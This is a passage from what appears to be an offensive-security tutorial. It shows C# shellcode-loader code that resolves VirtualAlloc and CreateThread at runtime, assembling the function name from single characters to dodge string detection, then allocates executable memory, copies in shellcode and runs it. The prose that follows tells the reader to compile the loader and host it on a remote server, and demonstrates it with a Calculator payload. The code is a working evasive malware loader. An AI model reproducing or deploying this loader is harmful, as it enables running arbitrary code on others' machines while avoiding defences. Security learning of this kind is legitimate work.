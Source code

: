 ```csharp

        IntPtr hModule2 = GetModuleHandle("kernel32.dll");
        IntPtr pFunc2 = GetProcAddress(hModule2, funcName2);

        var VirtualAllocDelly = Marshal.GetDelegateForFunctionPointer<VirtualAllocDelegate>(pFunc2);

        // Allocate RWX memory
        IntPtr addr = VirtualAllocDelly(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        if (addr == IntPtr.Zero)
        {
            Console.WriteLine("[-] VirtualAlloc failed.");
            return;
        }

        // Copy shellcode into memory
        Marshal.Copy(shellcode, 0, addr, shellcode.Length);

        // Create thread
        uint threadId;

        string[] chars = { "C", "r", "e", "a", "t", "e", "T", "h", "r", "e", "a", "d" };
        string funcName = string.Concat(chars);  // "CreateThread"

        IntPtr hModule = GetModuleHandle("kernel32.dll");
        IntPtr pFunc = GetProcAddress(hModule, funcName);

        var createThreadDelly = Marshal.GetDelegateForFunctionPointer<CreateThreadDelegate>(pFunc);




        IntPtr hThread = createThreadDelly(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, out threadId);
        if (hThread == IntPtr.Zero)
        {
            Console.WriteLine("[-] CreateThread failed.");
            return;
        }

        // Wait for thread to finish
        WaitForSingleObject(hThread, INFINITE);
    }
}
```

Compile that and place it on a remote server that you have control over.  The highly unreliable method of testing this is using mine, which is already compiled, but I think it's better for learning purposes if you compiled and referenced your own 😸

After everything is in place and ready to go, we simply do the following and are greeted with our illustrious Windows Calculator! 😹
